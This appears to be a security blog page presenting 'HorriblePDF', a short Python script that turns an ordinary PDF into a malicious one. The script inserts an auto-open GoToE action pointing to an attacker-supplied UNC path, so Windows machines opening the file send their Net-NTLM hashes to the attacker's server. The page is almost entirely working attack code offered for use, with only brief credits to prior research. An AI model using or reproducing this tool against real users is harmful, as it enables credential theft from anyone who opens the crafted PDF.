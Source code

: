 ```yaml
---
layout: attack
title: Crafting a HorriblePDF
---
```


<img height="150" align="left" src="/images/horriblepdf.png">
Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
    
```python
import sys

banner = """
  ___ ___                     ._____.   .__        __________________  ___________
 /   |   \  __________________|__\_ |__ |  |   ____\______   \______ \ \_   _____/
/    ~    \/  _ \_  __ \_  __ \  || __ \|  | _/ __ \|     ___/|    |  \ |    __)  
\    Y    (  <_> )  | \/|  | \/  || \_\ \  |_\  ___/|    |    |    `   \|     \   
 \___|_  / \____/|__|   |__|  |__||___  /____/\___  >____|   /_______  /\___  /   
       \/                             \/          \/                 \/     \/    

Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
"""

def add_payload(data,ip):
    payload = '/AA <</O <</F (\\\\\\\\' + ip + '\\\\test)/D [ 0 /Fit]/S /GoToE>>>>'
    index1 = data.find('/Parent') + 13    
    return data[0:index1] + payload + data[index1:]   


if __name__ == "__main__":
    print(banner)

    if len(sys.argv)!=3:
        print('\nUsage:')
        print('    HorriblePDF.py <normal PDF file Path> <ServerIP>')   
        sys.exit(0)    

    print(f"[*] Normal PDF: {sys.argv[1]}")
    print(f"[*] Server IP: {sys.argv[2]}")
    
    with open(sys.argv[1],'rb') as file_object:
        all_the_text = file_object.read( )

    new_data = add_payload(all_the_text,sys.argv[2])
    new_malicious_path = sys.argv[1] + '.malicious.pdf'
    
    print(f"[+] HorriblePDF: {new_malicious_path}")  
    with open(new_malicious_path, 'wb') as horrible_pdf:
        horrible_pdf.write(new_data)
    print("[*] All Done")

```

